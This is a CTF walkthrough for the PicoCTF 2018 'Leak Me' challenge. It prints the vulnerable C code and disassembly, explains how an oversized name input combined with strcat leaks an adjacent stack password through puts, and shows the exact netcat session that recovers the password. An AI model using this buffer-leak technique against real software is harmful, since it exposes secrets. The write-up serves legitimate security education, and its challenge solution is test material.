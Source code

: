 ```yaml
---
title:  PicoCTF 2018 - Leak Me
description: It's still a buffer overflow, but it won't crash and it won't execute code. How will you trick it into revealing its secrets?
hide_index: true
image:
  path: /img/reference/pico-ctf-2018-00000.png
  width: 1024
  height: 512
  thumb: /img/reference/pico-ctf-2018-00000.thumb.png
  alt: Linux Terminal
---
```


# PicoCTF 2018 - Leak Me

> **Note**: This article is part of our [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}).

## Spot the Bug

Spotting this one is trickier. I originally solved this challenge several months ago, but while putting this guide together I attempted to look ahead to this problem and "spot the bug" (with only access to the source code on my phone). I'm ashamed to admit that it was almost an hour of me staring at the thing before I had a good idea what the problem was and how it could be exploited. How long does it take you?

```c
char password[64]; // &[ebp-0x54]
char name[256]; // &[ebp-0x154]
char password_input[64]; // &[ebp-0x194]

memset(password, 0, sizeof(password));
memset(name, 0, sizeof(name));
memset(password_input, 0, sizeof(password_input));

printf("What is your name?\n");

fgets(name, sizeof(name), stdin);
char *end = strchr(name, '\n');
if (end != NULL) {
  *end = '\x00';
}

strcat(name, ",\nPlease Enter the Password.");

file = fopen("password.txt", "r");
if (file == NULL) {
  printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
  exit(0);
}

fgets(password, sizeof(password), file);

printf("Hello ");
puts(name);

fgets(password_input, sizeof(password_input), stdin);
password_input[sizeof(password_input)] = '\x00';

if (!strcmp(password_input, password)) {
  flag();
}
else {
  printf("Incorrect Password!\n");
}
```

Let's go over the steps:

1. Memory for `password`, `name`, and `password_input` is allocated and initialized on the stack.
2. You are prompted for your name (saved in `name`)
3. The file "password.txt" is opened, and read into the `password` variable
4. You are prompted for a password (saved in `password_input`)
5. If your password (`password_input`) matches the password in the file (`password`), then the flag is printed.

First off, we notice that the prompts for `name` and `password` both use `fgets()`, which is considered safe. `fgets` will read up to `size-1` bytes (or the first newline), and will always add a tailing null byte. There is also a call to `printf`, which could be used unsafely, but is fine in this case. Similarly, there are no problems with the calls to `strchr`, `fopen`, `puts`, or `strcmp` in this program.

The only thing it could be, and if you consider it briefly you might figure out why, is the call to `strcat` (which is used to concatenate two strings together into one string, using the underlying memory of the first string).

```c
fgets(name, sizeof(name), stdin); // read up to size-1 bytes
// ...
strcat(name, ",\nPlease Enter the Password."); // add 28 characters + null to end of name
// ...
fgets(password, sizeof(password), file); // read the password into password
// ...
printf("Hello ");
puts(name);
```

## Strategy

The strategy, as the name of the challenge suggests, is to "leak" the password before we are required to enter it. We can do this because of the exact memory layout of the stack (we'll go over it in a minute, but it's important to note that this layout is specific to this version of compiler, in general the order of `password`, `name` and `password_input` on the stack isn't well specified). We can also do this because `puts` will continue to output chars until it hits the first null, and knows nothing about the size of memory block associated with `name`.

*If you know what you're doing already, you can attempt the problem by connecting to 2018shell.picoctf.com on port 38315 right now.*

## Background Info

Just like [last time]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits/buffer-overflow-1.md %}), let's peak into the assembly and see what memory layout the compiler chose for our stack variables using `objdump -M intel -S ./auth`:

```nasm
sub    esp,0x4 // align
push   0x40 // 0x40 = 64 = sizeof(password)
push   0x0
lea    eax,[ebp-0x54] // &password
push   eax
call   8048530 <memset@plt> // memset(password, 0, sizeof(password));
add    esp,0x10

sub    esp,0x4 // align
push   0x100 // 0x100 = 256 = sizeof(name)
push   0x0
lea    eax,[ebp-0x154] // &name
push   eax
call   8048530 <memset@plt> // memset(name, 0, sizeof(name));
add    esp,0x10

sub    esp,0x4 // align
push   0x40 // 0x40 = 64 = sizeof(password_input)
push   0x0
lea    eax,[ebp-0x194] // &password_input
push   eax
call   8048530 <memset@plt> // memset(password_input, 0, sizeof(password_input));
add    esp,0x10
```

> **NOTE**: Take a second and observe that the arguments to `memset` are pushed on the stack in the "reverse" order. So, `sizeof(password)` is pushed first, then `0`, then the address of `password`. This may seem odd, but if you consider how the stack works, it means that `&password` is actually first in memory, followed by `0`, and then `sizeof(password)`, which is the order we expect. **Keep this in mind for later challenges**.

Therefor the memory layout for the local variables of our function looks something like this:

| lower addresses | &rArr; | &rArr; | &rArr; | &rArr; | &rArr; | higher addresses |
| --- | :---: | :---: | :---: | :---: | :---: | --- |
| `[esp]` | &lt; temp &gt; | `[ebp-0x194]` | `[ebp-0x154]` | `[ebp-0x54]` | &lt; other &gt; | `[ebp]` |
| | | `password_input`<br/>`[64]` | `name`<br/>`[256]` | `password`<br/>`[64]` | | |

Basically, the `password` variable directly follows the `name` variable in memory. If the string in `name` is long enough to spill into the memory for `password`, then when we read from "password.txt" we will actually write "into" the name string, and the password itself will be written to stdout when `puts(name)` is called.

## Exploitation

How long should our name be? Anything long enough should work, but it'll be easier to read if there is a clear delimiter. If the name is exactly 228 bytes (excluding newline), then appending 28 bytes will completely fill the `name` buffer, and the tailing null byte will end up as the first byte of the `password` variable. That byte will then be overwritten when the `password` is loaded. When the `name` string is printed out, the password will be all the characters following the `'.'` at the end of the prompt.

Here's 228 "U"s for you to copy-paste, as generated by `python3 -c 'print("U"*228)'`
```
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
```

**NOTE**: this challenge requires to connect to a specific port on the server. To do this, you can install the netcat package on most linux distros and on windows. You could also connect to the port using `pwntools` or similar. `netcat` is already installed on the shell server.

```
$ nc 2018shell.picoctf.com 38315
What is your name?
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Hello UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU,
Please Enter the Password.a_reAllY_s3cuRe_p4s$word_f85406

a_reAllY_s3cuRe_p4s$word_f85406
picoCTF{===REDACTED===}
```
{:.contains-term}

When prompted, enter 228 characters and then press enter. It will then reply "Hello <228 chars>, Please Enter the Password.`<password>`" where the actual password will be printed out after the `'.'`. You then copy-paste the password and hit enter, at which point it will print the flag for you. In my case, the password was "a_reAllY_s3cuRe_p4s$word_f85406".

Now that you've solved **Leak Me**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.